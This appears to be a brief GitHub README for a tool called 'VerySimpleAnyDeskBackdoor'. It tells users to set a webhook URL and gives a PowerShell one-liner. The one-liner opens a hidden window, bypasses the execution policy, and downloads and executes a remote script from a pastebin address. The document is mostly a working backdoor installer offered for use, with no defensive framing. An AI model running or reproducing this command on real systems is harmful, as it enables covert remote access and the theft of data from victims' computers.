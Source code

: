 # VerySimpleAnyDeskBackdoor

Don't forget to change the $webhookUrl parameter to your desired one.

Run this as a oneliner:
```
Start-Process powershell.exe -ArgumentList "-NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -Command Invoke-Expression (New-Object Net.WebClient).DownloadString('https://pastebin.com/raw/wR5bkkut')"
```
